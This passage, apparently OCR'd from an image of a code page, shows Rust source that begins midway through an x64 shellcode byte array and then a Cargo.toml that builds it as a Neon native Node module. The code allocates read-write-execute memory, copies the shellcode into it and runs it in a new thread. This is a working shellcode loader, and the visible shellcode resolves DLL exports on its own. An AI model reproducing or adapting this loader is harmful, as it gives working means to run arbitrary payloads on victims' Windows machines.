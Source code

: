 ```rust
      0x49, 0x81, 0xc1, 0x88, 0x00, 0x00, 0x00, 0x45, 0x8b, 0x29, 0x4d, 0x85, 0xed, 0x75, 0x08, 0x48,
      0x33, 0xc0, 0xe9, 0x85, 0x00, 0x00, 0x00, 0x4e, 0x8d, 0x04, 0x2b, 0x45, 0x8b, 0x71, 0x04, 0x4d,
      0x03, 0xf5, 0x41, 0x8b, 0x48, 0x18, 0x45, 0x8b, 0x50, 0x20, 0x4c, 0x03, 0xd3, 0xff, 0xc9, 0x4d,
      0x8d, 0x0c, 0x8a, 0x41, 0x8b, 0x39, 0x48, 0x03, 0xfb, 0x48, 0x8b, 0xf2, 0xa6, 0x75, 0x08, 0x8a,
      0x06, 0x84, 0xc0, 0x74, 0x09, 0xeb, 0xf5, 0xe2, 0xe6, 0x48, 0x33, 0xc0, 0xeb, 0x4e, 0x45, 0x8b,
      0x48, 0x24, 0x4c, 0x03, 0xcb, 0x66, 0x41, 0x8b, 0x0c, 0x49, 0x45, 0x8b, 0x48, 0x1c, 0x4c, 0x03,
      0xcb, 0x41, 0x8b, 0x04, 0x89, 0x49, 0x3b, 0xc5, 0x7c, 0x2f, 0x49, 0x3b, 0xc6, 0x73, 0x2a, 0x48,
      0x8d, 0x34, 0x18, 0x48, 0x8d, 0x7c, 0x24, 0x30, 0x4c, 0x8b, 0xe7, 0xa4, 0x80, 0x3e, 0x2e, 0x75,
      0xfa, 0xa4, 0xc7, 0x07, 0x44, 0x4c, 0x4c, 0x00, 0x49, 0x8b, 0xcc, 0x41, 0xff, 0xd7, 0x49, 0x8b,
      0xcc, 0x48, 0x8b, 0xd6, 0xe9, 0x14, 0xff, 0xff, 0xff, 0x48, 0x03, 0xc3, 0x48, 0x83, 0xc4, 0x28,
      0xc3];

    unsafe {
        let func_addr = VirtualAlloc(
            null_mut(), 
            x64shellcode.len(),
            MEM_COMMIT|MEM_RESERVE, 
            PAGE_EXECUTE_READWRITE,
        );
        std::ptr::copy_nonoverlapping(x64shellcode.as_ptr(), func_addr as *mut u8, x64shellcode.len());

        let mut thread_id: u32 = 0; 
        let h_thread = CreateThread( 
            null_mut(),
            0,
            Some(std::mem::transmute(func_addr)), 
            null_mut(),
            0,
            &mut thread_id as *mut u32, 
        );

        WaitForSingleObject(h_thread, 0xFFFFFFFF);
    }
}
```

And the corresponding `Cargo.toml` file:

```toml
[package]
name = "task3"
version = "0.1.0"
license = "ISC"
edition = "2024"
exclude = ["index.node"]

[lib]
crate-type = ["cdylib"]

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
neon = "1.1"
```